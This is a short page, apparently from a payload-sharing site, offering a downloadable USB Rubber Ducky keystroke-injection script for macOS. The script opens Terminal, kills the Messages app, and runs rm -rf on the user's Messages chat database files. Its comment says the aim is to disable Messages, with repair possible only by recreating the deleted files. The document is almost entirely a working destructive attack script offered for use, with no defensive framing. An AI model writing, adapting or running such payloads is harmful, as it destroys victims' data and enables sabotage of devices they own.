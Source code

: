 [Download Payload](https://duckyubuntu.tk/payload1.txt)

    REM Author: Alex Jay
    REM This script disables Messages on OS X, the only way to fix messages is to recreate the deleted files via 'touch'
    DELAY 800
    GUI SPACE
    DELAY 200
    STRING Terminal
    DELAY 100
    ENTER
    DELAY 200
    STRING killall Messages
    ENTER
    DELAY 200
    STRING rm -rf ~/Library/Messages/chat.db; rm -rf ~/Library/Messages/chat.db-shm; rm -rf ~/Library/Messages/chat.db-wal
    ENTER